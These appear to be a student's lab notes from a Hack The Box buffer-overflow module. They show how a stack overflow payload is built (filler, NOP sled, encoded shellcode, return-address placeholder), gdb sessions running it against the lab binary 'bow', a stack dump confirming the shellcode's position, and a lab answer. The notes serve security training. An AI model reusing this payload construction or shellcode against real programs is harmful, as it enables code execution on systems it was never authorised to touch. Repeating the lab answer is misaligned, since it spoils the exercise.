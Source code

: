 #### Notes

Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

#### Exploit with Shellcode

Exploit with Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack

The Stack

```shell-session
(gdb) (gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

#### Questions
1. Submit the size of the stack space after overwriting the EIP as the answer. (Format: 0x00000)
```bash
0x21000
```

```shell-session
htb-student@nixbof32:~$ gdb -q bow
Reading symbols from bow...(no debugging symbols found)...done.
(gdb) break bowfunc
Breakpoint 1 at 0x551
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xd9\xc0\xd9\x74\x24\xf4\xba\x24\x3d\xae\x77\x5e\x31\xc9\xb1\x12\x31\x56\x17\x03\x56\x17\x83\xca\xc1\x4c\x82\x23\xe1\x66\x8e\x10\x56\xda\x3b\x94\xd1\x3d\x0b\xfe\x2c\x3d\xff\xa7\x1e\x01\xcd\xd7\x16\x07\x34\xbf\xa2\xfd\xc9\x9f\xdb\x03\xd6\xce\x47\x8d\x37\x40\x11\xdd\xe6\xf3\x6d\xde\x81\x12\x5c\x61\xc3\xbc\x31\x4d\x97\x54\xa6\xbe\x78\xc6\x5f\x48\x65\x54\xf3\xc3\x8b\xe8\xf8\x1e\xcb" + "\x66" * 4')
Starting program: /home/htb-student/bow $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xd9\xc0\xd9\x74\x24\xf4\xba\x24\x3d\xae\x77\x5e\x31\xc9\xb1\x12\x31\x56\x17\x03\x56\x17\x83\xca\xc1\x4c\x82\x23\xe1\x66\x8e\x10\x56\xda\x3b\x94\xd1\x3d\x0b\xfe\x2c\x3d\xff\xa7\x1e\x01\xcd\xd7\x16\x07\x34\xbf\xa2\xfd\xc9\x9f\xdb\x03\xd6\xce\x47\x8d\x37\x40\x11\xdd\xe6\xf3\x6d\xde\x81\x12\x5c\x61\xc3\xbc\x31\x4d\x97\x54\xa6\xbe\x78\xc6\x5f\x48\x65\x54\xf3\xc3\x8b\xe8\xf8\x1e\xcb" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```
